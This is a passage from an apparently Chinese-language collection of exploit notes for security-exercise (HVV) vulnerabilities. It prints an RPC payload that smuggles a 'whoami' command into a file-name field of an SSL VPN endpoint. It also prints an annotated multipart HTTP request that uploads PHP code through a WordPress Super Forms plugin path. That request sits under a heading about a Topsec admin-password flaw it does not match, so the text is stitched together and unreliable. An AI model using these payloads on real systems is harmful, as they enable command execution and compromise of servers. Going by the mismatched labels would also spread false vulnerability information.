 {"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;whoami>/var/www/html/1.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

**官方辟谣**

该漏洞为内部已知问题，并且在 2020 年护网前的版本已经修复。

### 0x11 天融信数据防泄漏系统（LDP）越权修改管理员密码【历史漏洞】

**漏洞信息:**

天融信数据防泄漏系统越权修改管理员密码，该漏洞为 2020 年 8 月 17 号收到历史情报，非近期 HVV 期间漏洞。

**POC**

```
POST /wp-content/plugins/super-forms/uploads/php/ HTTP/1.1
 <=== exploit end point
Host: localhost
User-Agent: UserAgent
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data;
boundary=---------------------------423513681827540048931513055996
Content-Length: 7058
Origin: localhost
Connection: close
Referer: localhost
Cookie: 

-----------------------------423513681827540048931513055996
Content-Disposition: form-data; 

jpg|jpeg|png|gif|pdf|JPG|JPEG|PNG|GIF|PDF                        <=======
inject extension (|PHP4) to validate file to upload
-----------------------------423513681827540048931513055996
Content-Disposition: form-data; 

-----------------------------423513681827540048931513055996
Content-Disposition: form-data; 

-----------------------------423513681827540048931513055996
Content-Disposition: form-data; name="files[]";
file    <====   inject code extension (.php4)
for example
Content-Type: application/pdf

Evil codes to be uploaded

-----------------------------423513681827540048931513055996--

